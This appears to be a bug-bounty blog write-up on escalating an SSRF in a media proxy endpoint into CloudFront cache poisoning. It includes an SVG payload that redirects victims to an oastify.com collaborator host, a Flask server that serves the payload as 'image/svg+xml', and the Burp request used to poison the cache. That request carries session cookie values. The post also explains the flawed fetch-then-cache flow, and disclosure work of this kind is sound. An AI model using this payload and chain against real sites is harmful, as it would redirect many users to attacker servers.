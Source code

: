 ```yaml
---
date: 2025-05-04 10:15:00
---
```


# SSRF-induced Cache Poisoning Logic Bug

Hi, today I will share about the `Cache Poisoning (Variant)` vulnerability that I accidentally encountered on `BugCrowd`. Alright, let's get started!

![alt text](/posts/image-post/cache-poisoning-via-fetching-data/1.jpg)

---

## 1. Analyzing the Cache Poisoning Vulnerability via Server-Side Request Forgery?

Alright, why do I say that? Perhaps you might be curious: this vulnerability originated from discovering a `Proxy Controller Endpoint`, so I was able to POC `SSRF`, but it was only rated `P5 Informational` because the `Program` defines that `SSRF` that only interacts with external services or with the `Server Attacker` is considered `Low-Impact`. Therefore, they suggested that I should find a way to increase its `Impact` so they could reevaluate it!

![alt text](/posts/image-post/cache-poisoning-via-fetching-data/2.png)

---

## 2. How Was Cache Poisoning Discovered?

During the POC of `SSRF`, a collaborator discovered that it forced the use of the following `Response Header`: `image/svg+xml`. Previously, when sending the `Request` for it to `Fetch` to the Web Attacker, I set it to `text/html`, so it always returned a 400. Therefore, he tried various `Response Header` values, and after success, when using `image/svg+xml`, it returned status 200.

- Here, using `text/html` returns status 400

![alt text](/posts/image-post/cache-poisoning-via-fetching-data/4.jpg)

- And here, using `image/svg+xml`

![alt text](/posts/image-post/cache-poisoning-via-fetching-data/3.jpg)

Pay attention to the `Content-Type` in the second line of the `Response Header`—it accepts `image/svg+xml`. If you look closely, you can see in the fourth image, at the end of the `Response Header`, that it has saved the `Cache` to `CloudFront` with the `Response Header` `X-Cache: Hit from cloudfront` and the most important part is still `Age: 5`. This means it really was saved to the cache. And another important point is that this is truly a `variant` I encountered for the first time, because normally `Cache Poisoning` will not save to the cache through a `Fetch` to the `Server Attacker`.

Note: I used https://requestrepo.com/#/requests to modify the `Response Header`

![alt text](/posts/image-post/cache-poisoning-via-fetching-data/5.png)

---

## 3. How Can I Properly Prove to the Vendor that This Is Genuine Cache Poisoning

Of course, I have to show them how I attack a user via `Cache Poisoning`!

I have the following `Payload`:

`Poc.xml`
```xml
- Payload xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg xmlns="http://www.w3.org/2000/svg" version="1.1">
  <foreignObject width="100%" height="100%">
    <body xmlns="http://www.w3.org/1999/xhtml">
      <meta http-equiv="refresh" content="0; url=https://wcc9fwntbs9o7upj4haqmnxi0960uqif.oastify.com/" />
    </body>
  </foreignObject>
</svg>
```

This `Payload` is used to perform an `Open Redirect` attack to the `Server Attacker`, which may sound `low-impact`. But what really matters to them is how this `Payload` is saved into the cache and causes mass attacks!

Note: Some of you may have been wondering how I injected the `Payload`, because the `SSRF` vulnerability performed a `Fetch` to the `Server Attacker` and brought the entire `Payload` from my `Poc.xml` file back in the `Response` from the server.

![alt text](/posts/image-post/cache-poisoning-via-fetching-data/6.png)

---

## 4. The Real Cache Poisoning POC!

Maybe that's completely done? Well, yes, it's definitely done, but how do I confirm to them that it's truly serious?

I moved to a `VPS Server` to dig deeper. I wrote a web application using `Python Flask` as follows to escalate it from `P4 -> P3`:

```bash
- Detailed process
mkdir poc-cache-poisoning
cd poc-cache-poisoning
nano poc.xml -> manually add the payload above
nano app.py -> add the code below
python3 app.py -> move to BurpSuite's Repeater
```

---
```python
- Code to add
from flask import Flask, make_response
import os

app = Flask(__name__)

@app.route('/poc.xml')
def serve_svg_as_xml():
    file_path = os.path.join(os.getcwd(), 'poc.xml')
    if os.path.exists(file_path):
        with open(file_path, 'rb') as f:
            response = make_response(f.read())
            response.headers.set('Content-Type', 'image/svg+xml')
            return response
    else:
        return "File poc.xml not found!", 404

if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0', port=5505)
```
---

```http
- Request in Repeater
GET /media?u=http://Ip-Demo:5505/poc.xml HTTP/2 
Host: VulnWeb.com 
Cookie: _learn_session_adhoc=23bd7501d7eb466a35f70e1bfe50adde; _ga=GA1.1.165183293.1744628537; _ga_L9HT5MZ3HD=GS1.1.1744628536.1.0.1744629162.60.0.0; _ga_Z6QQP1041C=GS1.1.1744628539.1.0.1744629162.60.0.0 
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8" Sec-Ch-Ua-Mobile: ?0 Sec-Ch-Ua-Platform: "Windows" Accept-Language: en-US,en;q=0.9 
Upgrade-Insecure-Requests: 1 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 Sec-Fetch-Site: none Sec-Fetch-Mode: navigate Sec-Fetch-User: ?1 
Sec-Fetch-Dest: document 
Accept-Encoding: gzip, deflate, br 
Priority: u=0, i
```

An important point here is when I look at the `Logs` of the `Server Attacker`, I see that I sent the `Request` more than 10 times to the `Server`, but it only appears 2 times in the `Logs`. This means that the `Server` truly has a `Logic Bug` here, not just a typical `Cache Poisoning` vulnerability, because clearly this is a `Fetch` feature that then stores the response in the `CloudFront` cache, but the developer accidentally allowed it to `Fetch` external `Data`, thus causing the `Cache Poisoning` bug!

![alt text](/posts/image-post/cache-poisoning-via-fetching-data/7.jpg)

## 5. Diagram and Detailed Explanation

### + Differentiation from “Standard” Cache Poisoning

- **Standard Cache Poisoning**  
  1. Attacker sends a request with a payload directly from the client.  
  2. Server or CDN embeds the payload in the response.  
  3. CDN caches the response and returns it to subsequent clients.  
  4. Main work: manipulate headers (`Host`, `Vary`, `Cache-Control`…) to control different cache keys.

- **This Logic Bug Variant**  
  1. **Intermediate is SSRF/Fetch**  
     - Payload (SVG/XML) is fetched from the **server attacker**, not from the victim's browser.  
  2. **Main server** accidentally allows the `Fetch` to return the response with the header `Content-Type: image/svg+xml`, so **CloudFront automatically caches**.  
  3. **Repeated logic**: after caching, even if the victim makes multiple requests, the request is no longer forwarded to SSRF; it still returns the old cache—embedding the attacker's payload in the response.

---

### + Why Call It a “Logic Bug” Instead?

1. **Flow design flaw** rather than just misconfiguration of the cache.  
2. **Server attacker** is allowed to fetch any URL and return it directly to the CDN.  
3. The **Fetch → Cache → Serve** flow lacks controls (domain whitelist, response header validation…), allowing SSRF to escalate into cache poisoning.  
4. More severe consequences: not only incorrect caching, but also **mass-targeted attacks** via SVG/redirect payloads, XSS, malicious file downloads.

---

### + Flow diagram

![alt text](https://mermaid.ink/img/pako:eNp9kV9PwjAUxb9Kcw1viIx_gz6YwBCMYmLEoHHzoWyXrbFrsXQGJfvudgUMJsY-9d7fOec2tzuIVYJAoVbbcckNJbtIEhKByTDHCKi9JrhihTAR1E_QgmnOlgI3lcZ5KrRS0sz518Ho9dbbg-sIn5CnmdnjpRLJCTa4NYESSu_pWdOdE4HgEv8VYJLijC1RjFj8lmpVSJtPrXLlTgSVsIxkWdZqkUw1W2dk9lA1h-GCx488fyXn55fkJnzA9wI3Zl-OwkCoIplo-_7XSn0VzlF_oCZDY-wk1HvdbXjHBI-5Kjbkd0BlGrlrcLC6nMC1xuG9VttPMkETZ2TMDHNw7OB1GExIwOIMyU-4w9cOT09GzhfTi-e7maNTR4dQh1TzBKjRBdYhR52zqoQ_Ppnpt2pBpfWsmXxRKj_a7CLTDOiKiY2tinXCDI45s_vLf7oaZYI6sCs3QNt-14UA3cEWaN9r9Pp-p9dp-l3fG3gWflpRq9Xo9Hyv3ep3297A98s6fLmpzUbf75bfvnzLWw)

